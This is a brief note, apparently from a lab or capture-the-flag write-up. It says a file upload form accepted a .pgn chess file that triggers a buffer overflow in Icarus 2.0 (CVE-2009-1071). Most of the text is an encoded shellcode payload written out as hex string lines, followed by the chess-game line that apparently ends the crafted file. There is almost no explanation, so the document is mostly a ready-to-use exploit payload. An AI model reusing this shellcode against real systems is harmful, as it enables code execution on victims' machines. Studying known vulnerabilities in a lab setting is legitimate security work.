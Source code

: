 ![image](https://user-images.githubusercontent.com/74050386/198950566-626f1da8-2ac8-4048-a816-d8eb10797a58.png)

.pgn file type had a buffer overflow vuln. the form allowed for a .pgn upload with the modified payload. Icarus 2.0 CVE-2009-1071.

"\xeb\x03\x59\xeb\x05\xe8\xf8\xff\xff\xff\x4f\x49\x49\x49\x49\x49".
"\x49\x51\x5a\x56\x54\x58\x36\x33\x30\x56\x58\x34\x41\x30\x42\x36".
"\x48\x48\x30\x42\x33\x30\x42\x43\x56\x58\x32\x42\x44\x42\x48\x34".
"\x41\x32\x41\x44\x30\x41\x44\x54\x42\x44\x51\x42\x30\x41\x44\x41".
"\x56\x58\x34\x5a\x38\x42\x44\x4a\x4f\x4d\x4e\x4f\x4a\x4e\x46\x34".
"\x42\x50\x42\x50\x42\x30\x4b\x38\x45\x34\x4e\x43\x4b\x48\x4e\x47".
"\x45\x30\x4a\x47\x41\x50\x4f\x4e\x4b\x48\x4f\x44\x4a\x41\x4b\x48".
"\x4f\x55\x42\x52\x41\x30\x4b\x4e\x49\x54\x4b\x58\x46\x43\x4b\x38".
"\x41\x50\x50\x4e\x41\x33\x42\x4c\x49\x49\x4e\x4a\x46\x48\x42\x4c".
"\x46\x37\x47\x50\x41\x4c\x4c\x4c\x4d\x30\x41\x30\x44\x4c\x4b\x4e".
"\x46\x4f\x4b\x43\x46\x55\x46\x32\x46\x30\x45\x47\x45\x4e\x4b\x48".
"\x4f\x35\x46\x32\x41\x30\x4b\x4e\x48\x56\x4b\x58\x4e\x30\x4b\x44".
"\x4b\x58\x4f\x55\x4e\x31\x41\x50\x4b\x4e\x4b\x58\x4e\x51\x4b\x48".
"\x41\x50\x4b\x4e\x49\x58\x4e\x55\x46\x42\x46\x30\x43\x4c\x41\x33".
"\x42\x4c\x46\x36\x4b\x38\x42\x44\x42\x53\x45\x48\x42\x4c\x4a\x37".
"\x4e\x30\x4b\x48\x42\x54\x4e\x30\x4b\x58\x42\x57\x4e\x51\x4d\x4a".
"\x4b\x38\x4a\x36\x4a\x50\x4b\x4e\x49\x30\x4b\x48\x42\x48\x42\x4b".
"\x42\x50\x42\x50\x42\x50\x4b\x48\x4a\x56\x4e\x33\x4f\x35\x41\x53".
"\x48\x4f\x42\x56\x48\x45\x49\x38\x4a\x4f\x43\x58\x42\x4c\x4b\x57".
"\x42\x35\x4a\x46\x42\x4f\x4c\x58\x46\x50\x4f\x55\x4a\x36\x4a\x59".
"\x50\x4f\x4c\x38\x50\x50\x47\x35\x4f\x4f\x47\x4e\x43\x36\x41\x56".
"\x4e\x56\x43\x46\x42\x30\x5a";
{GuestRBZS checkmated} 1-0

